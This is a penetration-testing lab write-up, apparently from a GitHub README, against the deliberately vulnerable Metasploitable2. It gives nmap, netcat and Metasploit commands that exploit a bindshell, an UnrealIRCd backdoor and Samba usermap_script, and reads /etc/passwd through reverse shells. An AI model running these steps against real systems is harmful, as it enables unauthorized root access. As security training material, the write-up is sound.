







# Metasploitable2 Penetration Testing Lab

A hands-on penetration testing project performed in an isolated virtual lab, targeting **Metasploitable2** — an intentionally vulnerable Linux distribution built for security training — from a **Kali Linux** attacker machine.

The goal was to practice the full offensive security methodology: reconnaissance, service enumeration, vulnerability identification, exploitation, and post-exploitation verification — using industry-standard tools (Nmap, Metasploit Framework, Meterpreter).

> ⚠️ **Disclaimer:** This project was conducted entirely within a private, isolated virtual lab using Metasploitable2, a system intentionally designed and distributed by Rapid7 for legal security training. No real systems, networks, or third parties were targeted. All techniques shown here should only be practiced in authorized lab environments.

---

## Lab Environment

| Component | Details |
|---|---|
| Attacker Machine | Kali Linux (VMware Workstation) |
| Target Machine | Metasploitable2 (VMware Workstation) |
| Network | Host-only / NAT (isolated virtual network) |
| Attacker IP | `192.168.217.128` |
| Target IP | `192.168.217.129` |

---

## Methodology

The engagement followed a standard penetration testing workflow:

1. **Reconnaissance** — Network and service scanning with Nmap
2. **Enumeration** — Identifying service versions and known vulnerabilities
3. **Exploitation** — Exploiting three separate vulnerable services
4. **Post-Exploitation** — Verifying access level and gathering system information

---

## 1. Reconnaissance — Service Enumeration with Nmap

A full TCP service/version scan was run against the target to identify open ports and running services:

```bash
nmap -sV 192.168.217.129
```

**Key findings:**

| Port | Service | Version |
|---|---|---|
| 21/tcp | ftp | ProFTPD 1.3.1 |
| 139,445/tcp | netbios-ssn | Samba smbd 3.X–4.X |
| 1524/tcp | bindshell | **"Metasploitable root shell"** |
| 3306/tcp | mysql | MySQL 5.0.51a |
| 5432/tcp | postgresql | PostgreSQL 8.3.0–8.3.7 |
| 6667/tcp | irc | **UnrealIRCd** |
| 8180/tcp | http | Apache Tomcat/Coyote JSP engine 1.1 |

The scan immediately flagged several high-risk, outdated services — a strong indicator of multiple exploitable vulnerabilities.



---

## 2. Exploitation

### 2.1 — Direct Backdoor Shell (Port 1524)

Nmap's service banner on port 1524 explicitly identified it as a root shell. A direct connection was made using netcat, with no exploit required.

```bash
nc 192.168.217.129 1524
whoami
id
```

**Result:** Immediate, unauthenticated `root` access.

```
root@metasploitable:/# whoami
root
root@metasploitable:/# id
uid=0(root) gid=0(root) groups=0(root)
```



Basic system recon was then performed from this shell:

```bash
uname -a
cat /etc/passwd
hostname
```

```
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```



---

### 2.2 — UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

The IRC service on port 6667 was identified as UnrealIRCd, a version known to contain a backdoor planted in its source distribution, allowing remote command execution.

**Module used:** `exploit/unix/irc/unreal_ircd_3281_backdoor`

```
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.217.129
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.217.128
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
```

**Result:** A Meterpreter session was successfully opened.

```
[+] 192.168.217.129:6667 - The target appears to be vulnerable. UnrealIRCd detected after registration
[*] Meterpreter session 1 opened (192.168.217.128:4444 -> 192.168.217.129:35211)
```



Access was verified from within the Meterpreter session:

```
meterpreter > sysinfo
Computer    : metasploitable.localdomain
OS          : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture: i686

meterpreter > getuid
Server username: root
```



---

### 2.3 — Samba "username map script" Command Execution (CVE-2007-2447)

The Samba service (ports 139/445) was vulnerable to the `usermap_script` flaw, allowing unauthenticated remote command execution through a crafted username.

**Module used:** `exploit/multi/samba/usermap_script`

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set RHOSTS 192.168.217.129
msf exploit(multi/samba/usermap_script) > set LHOST 192.168.217.128
msf exploit(multi/samba/usermap_script) > run
```

**Result:** A command shell session was opened with root privileges.

```
[*] Command shell session 2 opened (192.168.217.128:4444 -> 192.168.217.129:33583)
```



```
whoami
root
id
uid=0(root) gid=0(root)
```



---

## Summary of Findings

| # | Vulnerability | Service / Port | CVE | Tool Used | Access Gained |
|---|---|---|---|---|---|
| 1 | Pre-installed backdoor shell | bindshell / 1524 | — | netcat | root (direct shell) |
| 2 | UnrealIRCd source backdoor | ircd / 6667 | CVE-2010-2075 | Metasploit / Meterpreter | root (Meterpreter session) |
| 3 | Samba username map script RCE | smbd / 139, 445 | CVE-2007-2447 | Metasploit | root (command shell) |

All three vectors resulted in **unauthenticated, remote root-level access** — highlighting the severity of running outdated, unpatched services on exposed ports.

---

## Remediation Recommendations

In a real-world environment, the following steps would mitigate these vulnerabilities:

- Remove or disable undocumented backdoor services (port 1524) entirely.
- Upgrade UnrealIRCd to a version built from verified, untampered source.
- Patch Samba to a version beyond 3.0.20–3.0.25 or disable the `username map script` option.
- Apply network segmentation and firewall rules to restrict access to internal/management services.
- Conduct regular vulnerability scanning and patch management cycles.

---

## Key Takeaways

- Practiced the complete penetration testing lifecycle: recon → enumeration → exploitation → post-exploitation.
- Gained hands-on experience with **Nmap**, **Metasploit Framework**, and **Meterpreter**.
- Learned to identify and exploit real, historically significant CVEs (CVE-2010-2075, CVE-2007-2447).
- Reinforced the importance of patch management and service hardening from an attacker's perspective.

---

## Tools Used

`Kali Linux` · `VMware Workstation` · `Nmap` · `Metasploit Framework` · `Meterpreter` · `netcat`

---

